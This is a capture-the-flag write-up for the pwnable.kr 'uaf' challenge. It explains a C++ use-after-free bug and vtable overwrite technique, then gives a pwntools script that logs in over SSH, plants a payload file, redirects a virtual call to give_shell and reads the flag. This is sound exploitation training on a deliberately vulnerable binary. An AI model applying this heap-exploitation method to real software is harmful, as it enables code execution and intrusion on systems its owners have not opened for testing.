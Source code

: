 Note: a vtable is associated to a class, and allocated objects of the class in the heap (with the new keyword) will include a chunk containing their vtable address. vtables are present in the binary. 

When we want to call functions defined inside the class, their addresses will be found in the vtable corresponding to the address present in the object's heap chunk.

In this challenge, after freeing the chunks, we can overwrite the chunks of size ``0x20`` (that contain vtable address) by the content of the file passed in ``argv[2]``. We will specify a size of 0x18 to ensure it is the ``0x20``-sized chunks that are going to be reused (0x18 will be 16-bit aligned to 0x20).

Moreover, we have a use after free vulnerability: ``m->introduce`` (supposed to call ``Man::introduce``) can still be called after the free. We are going to exploit this by modifying the address of the vtable used by the ``m`` object, thus to make it call the ``give_shell`` function.

``introduce`` is the second function for Man vtable. We have:
``*(man_vtable+0x10)``   is ``give_shell`` address
``*(man_vtable+0x10+8)`` is ``introduce``  address

Note: first function in the vtable is after a 0x10 offset. In the heap, it is ``vtable+0x10`` that is stored.

If we decrease ``(vtable+0x10)`` address by 8, trying to call ``m->introduce`` will result in calling ``m->give_shell``.

Let's load the binary to get the Man vtable address.
```python
from pwn import *
elf = ELF("uaf")
```
first function of the old vtable (give_shell) :
```python
old_vtable_1F =  elf.symbols["_ZTV3Man"]+0x10
```
give_shell takes the place of introduce as second function :
```python
new_vtable_1F =  old_vtable_1F-8
```
Now let's write our new vtable address into a file, so the content of the file will be stored in the heap chunk containing our objects' vtable. When we debug the binary, we clearly see that this chunk is located after another chunk of 0x30 containing the object's name and age variables, and its size is 0x20. That is why we specified an 0x18 address: so doing, it will realign the 0x18 size to 0x20, and it will be looking for a free 0x20 chunk, then it will find chunks containing vtable (for ``w`` then for ``m``).
```python
shell = ssh("uaf", "pwnable.kr", password="guest", port=2222)
wp = shell.process(["cat", "/dev/stdin", ">>", "/tmp/payload"])
wp.send(p64(new_vtable_1F))
wp.close()

p = shell.process(["./uaf", "24", "/tmp/payload"])
print p.recv()
p.sendline("3") 
print p.recv()
p.sendline("2") 
```
It's the ``w`` heap chunk containing vtable that is going to be reused the first time. So we have to store the payload twice, since ``m->introduce`` is called before ``w->introduce``.
```python
print p.recv()
p.sendline("2")
print p.recv()
p.sendline("1")
print p.recv()
```
We got the shell.
```python
p.sendline("cat flag")
print p.recv()
```
